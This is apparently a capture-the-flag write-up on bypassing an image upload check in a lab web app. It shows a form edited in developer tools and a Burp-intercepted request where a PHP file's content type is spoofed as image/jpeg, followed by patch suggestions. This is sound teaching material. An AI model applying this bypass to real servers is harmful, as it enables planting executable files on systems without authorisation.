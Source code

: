 # [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

## Writeup

Navigating to the image upload service on route `/page=upload`, we have a form asking for an image. Attempting to upload any file, even valid images, fails and we get a error stating that our file failed to upload.

Using the developer tools, we can change the innerhtml of the form to accept mime types of common image types.
Old Form:
```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```
New Form:
```html 
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<!-- Edit HERE -->
	<input name="uploaded" type="file" accept="image/jpeg"><br> 
	<!-- Edit HERE -->
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>

```

We can now image types of whatever we specify, however if we attempt to upload a mime type that is not an image like `text/php`, we fail to upload the file.

Let's use burp to hide a php file behind a valid mime type. Using burp's builtin browser, we navigate to the route, turn on the interceptor, and upload a test file like `script.php`. The interceptor catches the outgoing POST request:
```
POST /?page=upload HTTP/1.1
Host: 10.13.249.200
Content-Length: 391
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.13.249.200
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryg4imGYVBT4mAKy0D
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.13.249.200/?page=upload
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryg4imGYVBT4mAKy0D
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryg4imGYVBT4mAKy0D
Content-Disposition: form-data; name="uploaded"; filename="script.php"
Content-Type: text/php


------WebKitFormBoundaryg4imGYVBT4mAKy0D
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryg4imGYVBT4mAKy0D--
```
Now we can just edit the request in burp by changing the content type of the uploaded file from `text/php` to `image/jpeg`. Forwarding the request, we can check back in the browers to see the flag.

## Possible Patches

Here are a few ways to prevent Unrestricted File Upload:
 1. Scan file contents instead of just the mimetype. 
 1. Removing control or special unicode character from file names/extensions.
 1. Ensure files can't be overwriten by files being uploaded.
 1. Uploaded files shouldn't be executable or interperted by a CGI, common html control characters should be encoded.
 